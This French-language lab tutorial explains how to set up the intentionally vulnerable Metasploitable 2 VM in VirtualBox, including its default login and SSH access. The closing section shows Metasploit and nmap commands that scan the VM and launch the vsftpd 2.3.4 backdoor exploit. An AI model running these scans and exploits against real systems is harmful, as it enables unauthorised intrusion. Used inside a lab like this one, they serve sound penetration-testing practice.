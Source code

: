 Pour mettre en place Metasploitable sur VirtualBox, suivez ces étapes détaillées :

### Étapes pour installer et configurer Metasploitable sur VirtualBox

#### 1. Télécharger Metasploitable

1. **Accéder au site de téléchargement** : Téléchargez Metasploitable 2 depuis SourceForge.
   [Télécharger Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)

2. **Décompresser le fichier téléchargé** : Une fois téléchargé, vous obtiendrez un fichier zip. Décompressez-le pour obtenir le fichier .vmdk.

#### 2. Installer VirtualBox

1. **Télécharger VirtualBox** : Si vous n'avez pas encore VirtualBox, téléchargez-le depuis le site officiel [VirtualBox](https://www.virtualbox.org/).

2. **Installer VirtualBox** :
   - Suivez les instructions d'installation pour votre système d'exploitation.

#### 3. Importer Metasploitable dans VirtualBox

1. **Ouvrir VirtualBox** : Lancez VirtualBox.

2. **Créer une nouvelle machine virtuelle** :
   - Cliquez sur le bouton `New` (Nouveau) pour créer une nouvelle machine virtuelle.

3. **Configurer la machine virtuelle** :
   - **Name** (Nom) : Donnez un nom à votre VM, par exemple `Metasploitable`.
   - **Type** : Sélectionnez `Linux`.
   - **Version** : Sélectionnez `Ubuntu (64-bit)`.

4. **Allouer de la mémoire RAM** :
   - Choisissez la quantité de mémoire à allouer. 512 Mo est suffisant pour Metasploitable.

5. **Utiliser un disque dur virtuel existant** :
   - Sélectionnez `Use an existing virtual hard disk file` (Utiliser un fichier de disque dur virtuel existant).
   - Cliquez sur l'icône du dossier et sélectionnez le fichier .vmdk que vous avez décompressé précédemment (`Metasploitable.vmdk`).

6. **Créer la machine virtuelle** :
   - Cliquez sur `Create` (Créer).

#### 4. Configurer les paramètres réseau

1. **Configurer le réseau de la VM** :
   - Sélectionnez la VM Metasploitable dans la liste des VMs.
   - Cliquez sur `Settings` (Paramètres).

2. **Aller dans l'onglet Réseau** :
   - Dans l'onglet `Network` (Réseau), assurez-vous que `Adapter 1` est activé et configuré comme `NAT` ou `Bridged Adapter` (Adaptateur ponté).

#### 5. Démarrer la VM Metasploitable

1. **Démarrer la VM** :
   - Sélectionnez la VM Metasploitable et cliquez sur `Start` (Démarrer).

2. **Se connecter à la VM** :
   - Une fois la VM démarrée, utilisez les identifiants par défaut pour vous connecter.
   - **Username** (Nom d'utilisateur) : `msfadmin`
   - **Password** (Mot de passe) : `msfadmin`

#### 6. Connexion SSH (optionnel)

Pour une utilisation plus pratique, vous pouvez vous connecter à la VM Metasploitable via SSH.

1. **Trouver l'adresse IP de la VM** :
   - Dans la VM Metasploitable, utilisez la commande `ifconfig` pour trouver l'adresse IP de la VM.

2. **Connexion SSH depuis la machine hôte** :
   - Sur votre machine hôte (par exemple, Kali Linux), ouvrez un terminal et utilisez SSH pour vous connecter.
     ```bash
     ssh msfadmin@<IP-de-Metasploitable>
     ```
   - Entrez le mot de passe `msfadmin` lorsque vous y êtes invité.

### Conclusion

Vous avez maintenant configuré Metasploitable sur VirtualBox. Vous pouvez utiliser cette VM pour pratiquer les tests de pénétration et les analyses de sécurité. Assurez-vous de n'utiliser cette machine virtuelle que dans un environnement de test contrôlé et éthique.

### Exemple d'utilisation avec Metasploit

Pour illustrer comment utiliser Metasploitable avec Metasploit, voici un exemple simple :

1. **Lancer Metasploit sur Kali Linux** :
   ```bash
   msfconsole
   ```

2. **Scanner Metasploitable avec Nmap** :
   ```bash
   nmap -A <IP-de-Metasploitable>
   ```

3. **Exploiter une vulnérabilité** :
   - Recherchez un exploit disponible dans Metasploit :
     ```bash
     search vsftpd
     ```
   - Sélectionnez et configurez l'exploit :
     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOST <IP-de-Metasploitable>
     run
     ```

En suivant ces étapes, vous pouvez pratiquer diverses techniques de tests de pénétration sur la machine Metasploitable dans VirtualBox.